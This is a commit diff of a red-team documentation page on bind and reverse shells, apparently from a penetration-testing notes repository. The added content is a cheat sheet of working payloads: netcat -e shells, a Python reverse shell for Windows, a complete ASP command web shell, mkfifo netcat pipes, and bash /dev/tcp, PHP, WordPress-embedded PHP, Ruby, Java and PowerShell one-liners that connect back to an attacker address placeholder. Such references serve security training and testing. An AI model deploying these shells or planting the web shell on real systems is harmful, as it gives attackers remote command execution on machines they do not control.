

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/payloads/shells.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Initial commit

````diff
--- a/source/docs/payloads/shells.md
+++ b/source/docs/payloads/shells.md
@@ -1,141 +1,165 @@
-# Bind and reverse shells
-
-## Attack tree
-
-```text
-1 Reverse shell
-    1.1 Start a listener on attack machine
-    1.2 Start a reverse shell on target machine
-2 Bind shell
-    2.1 Start a listener on target machine
-    2.2 Connect to listener on target from attack machine
-```
+# Common shells
 
 ## Examples
 
-### Netcat shells
+### Windows
 
-Starting a `netcat` listener on Linux for receiving from a reverse shell of the target:
+In some versions of netcat (including the `nc.exe` Windows version included with Kali at
+`/usr/share/windows-resources/binaries`, and the version used in Kali itself) there is a `-e` option which allows
+for executing a process on connection:
 
-    # nc -lvnp <port-number>
+    nc -lvnp <port-number> -e /bin/bash
 
-To obtain a bind shell on a target where there is already a listener waiting on a chosen port of the target:
+Connecting to the above listener with netcat would result in a bind shell on the target.
 
-    # nc <target-ip> <chosen-port>
+For a reverse shell, connect back with:
 
-Stabilise a `netcat` shell on Linux systems:
+    nc <IP address attack machine> <port-number> -e /bin/bash
 
-* Spawn a better featured bash shell
-* Export to have access to term commands such as `clear`
-* Background the shell with `Ctrl+Z`. Back in our own terminal, use `stty raw -echo; fg` to turn off terminal echo
-(which gives access to tab autocompletes, the arrow keys, and `Ctrl+C` to kill processes) and foreground the shell
-again.
+#### Other reverse shells
+
+Netcat:
+
+    nc <IP address attack machine> <port-number> -e C:\Windows\System32\cmd.exe
+
+Python:
+
+```python
+import os,socket,subprocess,threading;
+def s2p(s, p):
+    while True:
+        data = s.recv(1024)
+        if len(data) > 0:
+            p.stdin.write(data)
+
+def p2s(s, p):
+    while True:
+        s.send(p.stdout.read(1))
+
+s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
+s.connect(("<IP address attack machine>",<port-number>))
+
+p=subprocess.Popen(["\\windows\\system32\\cmd.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)
+
+s2p_thread = threading.Thread(target=s2p, args=[s, p])
+s2p_thread.daemon = True
+s2p_thread.start()
+
+p2s_thread = threading.Thread(target=p2s, args=[s, p])
+p2s_thread.daemon = True
+p2s_thread.start()
+
+try:
+    p.wait()
+except KeyboardInterrupt:
+    s.close()
+```
+
+ASP (Credit: Maceo – maceo @ dogmile.com):
 
 ```text
-adversary@kali:~# nc -lvnp <port-number>
-Ncat: Version 7.92 ( https://nmap.org/ncat )
-Ncat: Listening on :::<port-number>
-Ncat: Listening on 0.0.0.0:<port-number>
-Ncat: Connection from <target IP address>.
-Ncat: Connection from <target IP address>:<target port-number>.
-python -c 'import pty;pty.spawn("/bin/bash")'
-shell@linux:~$ export TERM=xterm
-shell@linux:~$ ^Z
-[1]+ Stopped        nc -lvnp <port-number>
-adversary@kali:~# stty raw -echo; fg
-nc -lvnp <port-number>
+<%@ Language=VBScript %>
+<%
+  Dim oScript
+  Dim oScriptNet
+  Dim oFileSys, oFile
+  Dim szCMD, szTempFile
 
-shell@linux:~$ whoami
-shell
-```
-If the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo).
-To fix this, type `reset` and press enter.
+  On Error Resume Next
 
-For Windows shells, `rlwrap` can give access to history, tab autocompletion and the arrow keys immediately when
-receiving a shell, but some manual stabilisation must still be used to be able to use `Ctrl+C` inside the shell.
-`rlwrap` is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.
+  ' -- create the COM objects that we will be using -- '
+  Set oScript = Server.CreateObject("WSCRIPT.SHELL")
+  Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
+  Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
 
-Then use:
+  ' -- check for a command that we have posted -- '
+  szCMD = Request.Form(".CMD")
+  If (szCMD <> "") Then
 
-    adversary@kali:~# rlwrap nc -lvnp <port-number>
+    ' -- Use a poor man's pipe ... a temp file -- '
+    szTempFile = "C:\" & oFileSys.GetTempName( )
+    Call oScript.Run ("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True)
+    Set oFile = oFileSys.OpenTextFile (szTempFile, 1, False, 0)
 
-The third way to stabilise a shell is to use a netcat shell as a stepping stone into a more fully-featured `socat`
-shell.
+  End If
 
-### Socat shells
-
-#### Reverse
-
-A basic reverse shell listener in `socat`:
-
-    adversary@kali:~# socat TCP-L:<port-number> -
-
-To connect back to the listener on a Linux target system:
-
-    socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
-
-To connect back to the listener on a Windows target system:
-
-    socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
-
-#### Bind
-
-Set up a listener on a Linux target:
-
-    socat TCP-L:<PORT> EXEC:"bash -li"
-
-Set up a listener on a Windows target:
-
-    socat TCP-L:<PORT> EXEC:powershell.exe,pipes
-
-The `pipes` argument interfaces between the Unix and Windows ways of handling input and output in a CLI environment.
-
-Regardless of the target machine, connect to the waiting listener with:
-
-    socat TCP:<TARGET-IP>:<TARGET-PORT> -
-
-For a fully stable Linux tty reverse shell, use the `tty` technique.
-
-### Socat encrypted shells
-
-Setting up an OPENSSL-LISTENER using the `tty` technique and a PEM file called `encrypt.pem`:
-
-```text
-adversary@kali:~# openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
-adversary@kali:~# cat shell.key shell.crt > encrypt.pem
-adversary@kali:~# socat OPENSSL-LISTEN:<port-number>,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
+%>
+<HTML>
+<BODY>
+<FORM action="<%= Request.ServerVariables("URL") %>" method="POST">
+<input type=text name=".CMD" size=45 value="<%= szCMD %>">
+<input type=submit value="Run">
+</FORM>
+<PRE>
+<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
+<br>
+<%
+  If (IsObject(oFile)) Then
+    ' -- Read the output from our command and remove the temp file -- '
+    On Error Resume Next
+    Response.Write Server.HTMLEncode(oFile.ReadAll)
+    oFile.Close
+    Call oFileSys.DeleteFile(szTempFile, True)
+  End If
+%>
+</BODY>
+</HTML>
 ```
 
-Connecting back to this listener from the target machine:
+### Linux
 
-```text
-socat OPENSSL:<IP address attack machine>:<port-number>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
-```
+On Linux, use this code to create a listener for a bind shell:
 
-* `pty` allocates a pseudoterminal on the target -- part of the stabilisation process
-* `stderr` makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
-* `sigint` passes any `Ctrl+C` commands through into the sub-process, allowing for `kill` commands inside the shell
-* `setsid` creates the process in a new session
-* `sane` stabilises the terminal, attempting to "normalise" it.
+    mkfifo /tmp/f; nc -lvnp <port-number> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
 
-## Notes
+#### Other reverse shells
 
-Shells are used for interfacing with a Command Line environment (CLI) like the common `bash` or `sh` programs in
-Linux, and the `cmd.exe` and `Powershell` on Windows. When targeting remote systems it is sometimes possible to force
-an application running on the server (such as a webserver, for example) to execute arbitrary code. When this happens,
-we want to use this initial access to obtain a shell running on the target.
+Netcat:
 
-* Reverse shells are when the target is forced to execute code that connects back to the attack computer.
-This requires setting up a listener which would be used to receive the connection on the attack machine. Reverse
-shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target.
-* Bind shells are when the code executed on the target is used to start a listener attached to a shell directly on
-the target. This would then be open up a port to receive on that you can connect to, and obtain remote code execution.
-This has the advantage of not requiring any configuration on the attack network, but may be prevented by firewalls
-protecting the target.
+    nc <IP address attack machine> <port-number> -e /bin/sh
 
-## Tools
+Netcat Traditional (like the one on Kali):
 
-* [Netcat](https://www.kali.org/tools/netcat/)
-* [Socat](https://www.kali.org/tools/socat/)
-* [Socat binaries](https://github.com/3ndG4me/socat/releases)
-* [Metasploit -- multi/handler](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/handler)
+    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP address attack machine> <port-number> >/tmp/f;/tmp/f
+
+Python:
+
+    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP address attack machine>",<port-number>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
+
+Bash:
+
+    bash -i >& /dev/tcp/<IP address attack machine>/<port-number> 0>&1
+
+PHP:
+
+    php -r '$sock=fsockopen("<IP address attack machine>",<port-number>);exec("/bin/sh -i <&3 >&3 2>&3");'
+
+PHP alternative 1:
+
+    php -r '$sock=fsockopen("<IP address attack machine>",<port-number>);$proc = proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);'
+
+PHP alternative 2:
+
+    <?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP address attack machine> <port-number> >/tmp/f'); ?>
+
+PHP WordPress:
+
+    <?php if(is_home()) { exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP address attack machine> <port-number> >/tmp/f'); } ?>
+
+Ruby:
+
+    ruby -rsocket -e'f=TCPSocket.open("<IP address attack machine>",<port-number>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
+
+Java:
+
+    r = Runtime.getRuntime()
+    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<IP address attack machine>/<port-number>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
+    p.waitFor()
+
+### Windows server
+
+The standard one-liner PSH reverse shell:
+
+    powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port-number>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
+
+Copy into a `cmd.exe` shell or another method of executing commands on a Windows server, such as a webshell.
--- a/source/index.rst
+++ b/source/index.rst
@@ -7,8 +7,8 @@ Monkeys know what tree to climb
    :caption: Payloads
 
    docs/payloads/README.md
+   docs/payloads/types.md
    docs/payloads/shells.md
-   docs/payloads/oneliners.md
    docs/payloads/payloads.md
 
 .. toctree::
````
Also changed, not shown: source/docs/payloads/README.md (+2 -2 lines), source/docs/payloads/oneliners.md (deleted, +0 -33 lines), source/docs/payloads/payloads.md (+79 -34 lines), source/docs/payloads/types.md (added, +142 -0 lines).
